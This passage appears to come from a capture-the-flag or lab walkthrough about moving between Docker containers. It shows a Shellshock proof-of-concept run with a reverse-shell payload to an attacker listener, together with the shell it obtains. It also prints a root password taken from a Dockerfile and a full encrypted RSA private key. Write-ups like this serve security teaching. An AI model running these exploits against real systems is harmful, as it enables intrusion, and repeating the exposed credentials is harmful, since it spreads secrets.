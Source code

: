 Remember that potential shellshock from earlier?  So to avoid the protections, all we need to do is launch our attack from this container which can bypass the waf entirely by going through a different subnet.  

We'll use the shellshock proof-of-concept from [exploit-db](https://www.exploit-db.com/exploits/34900/).

```
root@ezra:/tmp# python shellshock.py  payload=reverse rhost=172.24.0.2 lhost=172.24.0.253 lport=1234 pages=/cgi-bin/stats
[!] Started reverse shell handler
[-] Trying exploit on : /cgi-bin/stats
[!] Successfully exploited
[!] Incoming connection from 172.24.0.1
172.24.0.1> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Container 3: blog-test
-------------------------
Almost there, but in this device we see we're `www-data`.  Luckily, we have the password from the Dockerfile, `root:Ib3!kTEvYw6*P7s`,  so all we need to do is spawn a tty, so we can use su to root. 

In this container we view the mounted directories using `mount` which shows that `/home/spanishdancer` is mounted from the host and isn't a user on this container which we can confirm from the passwd file.
```
root@beehive:/home/spanishdancer/.ssh# 
172.24.0.1> 
ls -la
total 20
drwx------ 2 1000 1000 4096 Sep 24  2017 .
drwxr-xr-x 5 1000 1000 4096 Nov 13 14:19 ..
-rw-rw-r-- 1 1000 1000  407 Sep 24  2017 authorized_keys
-rw------- 1 1000 1000 1766 Sep 24  2017 id_rsa
-rw-r--r-- 1 1000 1000  407 Sep 24  2017 id_rsa.pub
root@beehive:/home/spanishdancer/.ssh# 
```
Luckily it appears there's a couple of ssh keys in there.
```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,C3EBD8120354A75E12588B11180E96D5

2UIvlsa0jCjxKXmQ4vVX6Ez0ak+6r5VuZFFoalVXvbZSLomIya4vYETv1Oq8EPeh
KHjq5wFdlYdOXqyJus7vFtB9nbCUrgH/a3og0/6e8TA46FuP1/sFMV67cdTlXfYI
Y4sGV/PS/uLm6/tcEpmGiVdcUJHpMECZvnx9aSa/kvuO5pNfdFvnQ4RVA8q/w6vN
p3pDI9CzdnkYmH5/+/QYFsvMk4t1HB5AKO5mRrc1x+QZBhtUDNVAaCu2mnZaSUhE
abZo0oMZHG8sETBJeQRnogPyAjwmAVFy5cDTLgag9HlFhb7MLgq0dgN+ytid9YA8
pqTtx8M98RDhVKqcVG3kzRFc/lJBFKa7YabTBaDoWryR0+6x+ywpaBGsUXEoz6hU
UvLWH134w8PGuR/Rja64s0ZojGYsnHIl05PIntvl9hinDNc0Y9QOmKde91NZFpcj
pDlNoISCc3ONnL4c7xgS5D2oOx+3l2MpxB+B9ua/UNJwccDdJUyoJEnRt59dH1g3
cXvb/zTEklwG/ZLed3hWUw/f71D9DZV+cnSlb9EBWHXvSJwqT1ycsvJRZTSRZeOF
Bh9auWqAHk2SZ61kcXOp+W91O2Wlni2MCeYjLuw6rLUHUcEnUq0zD9x6mRNLpzp3
IC8VFmW03ERheVM6Ilnr8HOcOQnPHgYM5iTM79X70kCWoibACDuEHz/nf6tuLGbv
N01CctfSE+JgoNIIdb4SHxTtbOvUtsayQmV8uqzHpCQ3FMfz6uRvl4ZVvNII/x8D
u+hRPtQ1690Eg9sWqu0Uo87/v6c/XJitNYzDUOmaivoIpL0RO6mu9AhXcBnqBu3h
oPSgeji9U7QJD64T8InvB7MchfaJb9W/VTECST3FzAFPhCe66ZRzRKZSgMwftTi5
hm17wPBuLjovOCM8QWp1i32IgcdrnZn2pBpt94v8/KMwdQyAOOVhkozBNS6Xza4P
18yUX3UiUEP9cmtz7bTRP5h5SlDzhprntaKRiFEHV5SS94Eri7Tylw4KBlkF8lSD
WZmJvAQc4FN+mhbaxagCadCf12+VVNrB3+vJKoUHgaRX+R4P8H3OTKwub1e69vnn
QhChPHmH9SrI2TNsP9NPT5geuTe0XPP3Og3TVzenG7DRrx4Age+0TrMShcMeJQ8D
s3kAiqHs5liGqTG96i1HeqkPms9dTC895Ke0jvIFkQgxPSB6y7oKi7VGs15vs1au
9T6xwBLJQSqMlPewvUUtvMQAdNu5eksupuqBMiJRUQvG9hD0jjXz8f5cCCdtu8NN
8Gu4jcZFmVvsbRCP8rQBKeqc/rqe0bhCtvuMhnl7rtyuIw2zAAqqluFs8zL6YrOw
lBLLZzo0vIfGXV42NBPgSJtc9XM3YSTjbdAk+yBNIK9GEVTbkO9GcMgVaBg5xt+6
```